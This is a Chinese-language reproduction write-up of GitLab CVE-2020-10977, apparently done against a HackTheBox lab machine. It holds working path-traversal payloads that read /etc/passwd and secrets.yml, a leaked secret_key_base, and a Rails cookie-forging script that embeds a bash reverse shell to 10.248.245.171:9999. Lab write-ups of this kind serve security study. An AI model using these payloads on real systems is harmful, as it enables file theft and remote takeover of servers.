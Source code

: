 # GitLab 任意文件读取导致RCE CVE-2020-10977

# GitLab 任意文件读取导致RCE CVE-2020-10977

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。GitLab是由GitLabInc.开发，使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。

参考链接：

- [Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)
- [CVE-2020-10977-Gitlab CE/EE 任意文件读取导致远程命令执行漏洞](https://juejin.cn/post/6916343939649765389)

## 漏洞影响

```
GitLab GitLab EE >=8.5，<=12.9
GitLab GitLab CE >=8.5，<=12.9
```

## 漏洞复现

### 环境安装

```
yum -y install policycoreutils openssh-server openssh-clients postfix
```

分配给虚拟机的物理内存最好是4G。

下载gitlab安装包

- CE下载地址：https://packages.gitlab.com/gitlab/gitlab-ce
- EE下载地址：https://packages.gitlab.com/gitlab/gitlab-ee

安装

```
yum -y install ./gitlab......12_8.1.rpm
```

修改监听端口

```
vim /etc/gitlab/gitlab.rb

external_url 'http://localhost:8888'
```

重置和重启

```
gitlab-ctl reconfigure

gitlab-ctl restart
```

第一次进入会提示重置root密码

### 任意文件读取漏洞复现

创建两个项目（test1 和 test2）

![20210309-08:24:52-_By9fIt_O36viF](images/20210309-082452-_By9fIt_O36viF.png)

![20210309-08:26:10-_T98qwn_mogzsu](images/20210309-082610-_T98qwn_mogzsu.png)

在test1中新建一个issue。

内容为：

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

![20210309-08:27:10-_HGh3yK_MV8ygY](images/20210309-082710-_HGh3yK_MV8ygY.png)



创建好后，将这个issue移动到test2。

![20210309-08:27:38-_Be3jaU_f9Ff6H](images/20210309-082738-_Be3jaU_f9Ff6H.png)

如果漏洞存在，并且文件有可读权限，就会变成一个链接。因为/etc/passwd被复制到了 `/var/opt/gitlab/gitlab-rails/uploads/@hashed/4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/ed7e8cddbc49e3746e0b9974b5393d79/passwd`

![20210309-08:28:08-_lHi6lY_aM20WQ](images/20210309-082808-_lHi6lY_aM20WQ.png)

![20210309-08:47:53-_ZpR5vy_FDXJZL](images/20210309-084753-_ZpR5vy_FDXJZL.png)

### RCE漏洞复现

根据报告[Hackone-Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052)内容，需要修改cookie，并且读取目标机器上的secret.yaml，并在本地搭建一个gitlab，将本地的gitlab环境的secret.yaml替换为目标机器上的secret.yaml，然后用gitlab的工具来生成cookie，最后携带这段cookie直接请求目标gitlab环境即可。

这里我受害机环境使用的是HackTheBox靶机[Laboratory](https://www.hackthebox.eu/home/machines/profile/298)

步骤1 利用LFI漏洞先读取secrets.yaml，来获取secret_key_base字段。

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```

![20210309-08:54:20-_VKsHlY_bljjkV](images/20210309-085420-_VKsHlY_bljjkV.png)

![20210309-08:56:00-_JQy17p_AgTtwS](images/20210309-085600-_JQy17p_AgTtwS.png)

需要将本地的gitlab的secrets.yaml的secret_key_base字段替换为受害机的。

```
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

![20210309-09:06:32-_ZQ8xH0_8WVpIV](images/20210309-090632-_ZQ8xH0_8WVpIV.png)

进入rails console：

```
gitlab-rails console 
```

使用gitlab-rails console执行以下命令，在获取到cookie之前，这些命令会在本机执行一次，所以在拿到cookie之后再监听端口。

```
request = ActionDispatch::Request.new(Rails.application.env_config)

request.env["action_dispatch.cookies_serializer"] = :marshal

cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.248.245.171/9999 0>&1'` %>")

depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)

cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

![20210309-09:19:19-_83wzq5_JvfiZX](images/20210309-091919-_83wzq5_JvfiZX.png)

![20210309-09:19:48-_F09ZMj_JR4sM5](images/20210309-091948-_F09ZMj_JR4sM5.png)


